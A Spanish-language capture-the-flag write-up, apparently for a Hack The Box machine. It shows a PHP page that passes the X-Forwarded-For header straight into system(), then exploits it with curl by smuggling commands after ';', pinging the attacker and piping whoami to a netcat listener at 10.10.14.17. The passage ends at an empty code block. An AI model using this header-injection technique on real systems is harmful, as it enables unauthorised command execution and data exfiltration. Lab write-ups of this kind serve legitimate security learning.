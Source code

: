``` php
		<div class="container p-5">
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
              <h1 class="text-white">Welcome Back!</h1>
              <h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
		</div>
	</section>
</div>
```
Veo un comando a nivel de sistema, ni más ni menos que **system**, ¡¡peligrooso!!. Si puedo llegar a introducir algo en esa parte se puede liar.

Entiendo que si mando una petición a este recurso (firewall.php) con la cabecera "HTTP_X_FORWARDED_FOR" el contenido de esta cabecera se guarda en la variable ip. Y esa variable luego se introduce dentro del comando system. Así que porbaré a mandar un comando como valor, usando ";" para escapar del contexto.  
Necesito autorización como se puede ver arriba del todo, se referirán a la cookie que la puedo encontrar tanto en el navegador como en el bursuite.

Usemos curl para esto y desde la máquina víctima mismo. Primero voy a ver si no sale lo de acceso denegado:
```
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "Cookie: PHPSESSID=kkpgqrbt1sh7rkip8pqr22l15l"
```
Y no me sale el "Access Denied", sale contenido, guay. ¡Ojo cuidado con los dos puntos y el igual en la cookie. es fácil confundirse!!!!.

Ahora meteremos la cabecera y un comando. Me enviaré un ping. El HTTP de la cabecera no hace falta ponerlo..Pongo un ; al final del comando también para escapar del contexto y separar.
```
curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.2.2; ping -c 1 10.10.14.17;" -H "Cookie: PHPSESSID=kkpgqrbt1sh7rkip8pqr22l15l"
```
Y en mi terminal estando en escucha recibo el ping:
```
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:25:48.276561 IP 10.10.11.128 > 10.10.14.17: ICMP echo request, id 2, seq 1, length 64
18:25:48.276586 IP 10.10.14.17 > 10.10.11.128: ICMP echo reply, id 2, seq 1, length 6
```
Es curioso, la puñetera Matrix..Si ponía la cookie de sesion antes que la cabecera en el curl no me funcionaba..yo flipo en colorinchis.

Me gustaría saber con que usuario estoy haciendo esto, así que jugaré con netcat;
```
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.2.2; whoami | nc 10.10.14.17 443;" -H "Cookie: PHPSESSID=kkpgqrbt1sh7rkip8pqr22l15l"
``` 
Y estando en escucha desde mi terminal recibo que soy usuario www-data
``` 
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.128] 58996
www-data
```
Mmmm Así de primeras parece que www-data será un usuario con menos privilegios que uhc, y que en vez de escalar privilegios voy a desescalarlos. Pero con uhc no he visto manera así que habrá que probar con otro usuario. Haré un sudo -l con este usuario a ver que tiene.
```
```